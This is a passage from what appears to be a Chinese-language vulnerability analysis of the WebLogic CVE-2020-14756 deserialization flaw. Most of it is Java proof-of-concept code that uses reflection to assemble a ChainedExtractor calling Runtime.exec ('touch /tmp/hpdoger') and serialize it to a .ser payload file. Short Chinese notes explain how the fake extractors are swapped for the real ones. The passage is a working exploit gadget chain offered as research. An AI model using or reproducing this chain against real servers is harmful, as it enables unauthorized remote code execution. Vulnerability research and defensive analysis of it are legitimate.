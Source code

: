 ```
        Method setInternalValue = attributeHolder.getClass().getDeclaredMethod("setInternalValue",Object.class);
        setInternalValue.setAccessible(true);
        setInternalValue.invoke(attributeHolder,partialResult);



        ValueExtractor[] realaExtractors = new ValueExtractor[]`{`
                new ReflectionExtractor("getMethod", new Object[]`{`"getRuntime", null`}`),
                new ReflectionExtractor("invoke", new Object[]`{`null, null`}`),
                new ReflectionExtractor("exec", new Object[]`{`"touch /tmp/hpdoger"`}`)
        `}`;

        partialResult.add(Runtime.class);


        Field m_aExtractor = extractorChain.getClass().getSuperclass().getDeclaredField("m_aExtractor");
        m_aExtractor.setAccessible(true);
        m_aExtractor.set(extractorChain,realaExtractors);


        FileOutputStream fileOut =
                new FileOutputStream("/Users/Hpdata/JavaSecurity/POCs/Weblogic/CVE-2020-14756/cve_2020_14756_1213.ser");
        // 建立对象输入流
        ObjectOutputStream out = new ObjectOutputStream(fileOut);
        //输出反序列化对象
        out.writeObject(attributeHolder);
        out.close();
        fileOut.close();

//        FileInputStream fileIn = new FileInputStream("cve_2020_14756_1213.ser");
//        ObjectInputStream input = new ObjectInputStream(fileIn);
//        input.readObject();
    `}`
`}`
```

在初始化传入了`fakeaExtractors`，防止在`partialResult.add`操作时报错

[![](https://p4.ssl.qhimg.com/t0138d74217d61b4bad.jpg)](https://p4.ssl.qhimg.com/t0138d74217d61b4bad.jpg)

添加完add之后再调用反射重新对`ChainedExtractor`父类变量`m_aExtractor`赋值

[![](https://p0.ssl.qhimg.com/t01ee837aa2fd7e953e.jpg)](https://p0.ssl.qhimg.com/t01ee837aa2fd7e953e.jpg)

### <a class="reference-link" name="12.1.3-TemplatesImpl"></a>12.1.3-TemplatesImpl
